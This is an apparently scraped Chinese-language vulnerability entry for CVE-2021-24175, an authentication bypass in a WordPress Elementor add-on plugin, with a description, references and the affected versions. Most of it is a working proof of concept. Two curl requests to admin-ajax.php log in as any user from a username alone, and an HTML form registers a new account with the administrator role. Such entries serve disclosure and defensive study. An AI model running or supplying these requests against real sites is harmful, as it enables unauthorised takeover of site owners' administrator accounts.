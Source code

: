 # WordPress Elementor Page Builder Plus 身份验证绕过 CVE-2021-24175

# WordPress Elementor Page Builder Plus 身份验证绕过 CVE-2021-24175

## 漏洞描述

未经身份验证的用户可以使用"theplus_ajax_login"和"theplus_google_ajax_register" Ajax请求，通过仅提供相关的用户名，就可以像任何用户一样轻松地进行身份验证。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24175
- https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

## 漏洞影响

```
Elementor Page Builder <4.1.7
```

## 漏洞复现

poc：

```
curl -X POST --data action=theplus_ajax_login --data email=admin -iLSS https://example.com/wp-admin/admin-ajax.php
curl -X POST --data action=theplus_google_ajax_register --data email=admin --data nonce=a -iLSS https://example.com/wp-admin/admin-ajax.php
```

"theplus_google_ajax_register"  AJAX请求还可以允许任何未经身份验证的用户创建具有任意角色的帐户，例如admin，然后登录。

html：

```html
<form method="POST" action="https://example.com/wp-admin/admin-ajax.php">
<input value="newadmin" name="name" type="text">
<input value="test@example.com" name="email" type="text">
<input value="test" name="password" type="text">
<input value="theplus_google_ajax_register" name="action" type="text">
<input value="administrator" name="tp_user_reg_role" type="text">
<input value="any" name="nonce" type="text">
<input type="submit" />
</form>
```


